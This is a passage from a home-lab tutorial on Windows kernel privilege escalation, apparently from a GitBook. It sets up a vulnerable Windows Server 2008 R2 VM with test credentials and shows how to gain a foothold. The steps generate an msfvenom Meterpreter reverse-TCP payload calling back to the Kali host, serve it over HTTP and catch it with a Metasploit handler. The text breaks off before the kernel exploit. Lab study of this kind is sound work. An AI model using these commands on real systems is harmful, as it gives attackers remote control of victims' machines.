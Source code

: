 # 🔬Win Kernel Privesc

## Lab 1 (Extra)

> 🔬 **Home Lab**
>
> I have prepared a vulnerable *Windows 2008 R2 Virtual Machine* and connected it to the same network of the Kali virtual machine.
>
> - Host system: `Kali Linux` - IP `192.168.31.128`
> - Target system: `Windown Server 2008 R2` - IP `192.168.31.131` - `test`:`Exploit12345`
>
> 
>
> ❗ **Targeting Kernel space memory and apps can cause system crashes, data loss, etc. Do NOT use it in production systems**❗

### Exploitation

- Get a `Meterpreter` session on the target with a manual payload
- Create the payload on the Kali VM

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.31.128 LPORT=4444 -f exe -o payload.exe
```

- Start a webserver on Kali VM

```
python3 -m http.server
```

- On the Win2008 VM, login with the `test`:`Exploit12345` user
  - Open the link `http://192.168.31.128:8000/` and download `payload.exe`
  - Stop the webserver on Kali VM
- Set up a payload handler on Kali VM

```bash
msfconsole -q
```

```bash
use exploit/multi/handler 
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.31.128
set LPORT 4444
run
```

- On the Win2008 VM, run the payload with the `test` user

![](.gitbook/assets/image-20230315174129546.png)
